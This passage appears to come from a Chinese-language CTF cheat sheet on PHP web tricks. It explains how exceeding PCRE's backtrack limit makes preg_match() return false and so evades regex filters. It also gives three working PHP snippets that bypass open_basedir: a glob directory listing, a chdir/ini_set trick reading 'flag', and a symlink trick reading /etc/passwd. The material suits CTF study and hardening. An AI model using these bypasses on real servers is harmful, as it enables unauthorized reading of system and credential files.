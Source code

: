 - Example
    - [0CTF 2018 Qual - EzDoor](https://github.com/w181496/CTF/tree/master/0ctf2018_qual/EzDoor)

## PCRE回溯次數限制繞過

- PHP 的 PCRE 庫使用 NFA 作為正規表達式引擎
    - NFA 在匹配不上時，會回溯嘗試其他狀態
- PHP 為防止 DOS，設定了 PCRE 回溯次數上限
    - `pcre.backtrack_limit`
    - 預設為 `1000000`
- 回溯次數超過上限時，`preg_match()` 會返回 `false`
- Example
    - Code-Breaking Puzzles - pcrewaf
    - [N1CTF 2019 - sql_manage](https://github.com/Nu1LCTF/n1ctf-2019/blob/master/WEB/sql_manage/README.md)

## open_basedir繞過

- glob 列目錄

```php
$file_list = array();
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
    echo "{$f}<br/>";
}
```

- [phuck3](https://twitter.com/Blaklis_/status/1111586655134203904)

```php
chdir('img');
ini_set('open_basedir','..');
chdir('..');chdir('..');
chdir('..');chdir('..');
ini_set('open_basedir','/');
echo(file_get_contents('flag'));
```

- symlinks

```php
mkdir('/var/www/html/a/b/c/d/e/f/g/',0777,TRUE);
symlink('/var/www/html/a/b/c/d/e/f/g','foo');
ini_set('open_basedir','/var/www/html:bar/');
symlink('foo/../../../../../../','bar');
unlink('foo');
symlink('/var/www/html/','foo');
echo file_get_contents('bar/etc/passwd');
```
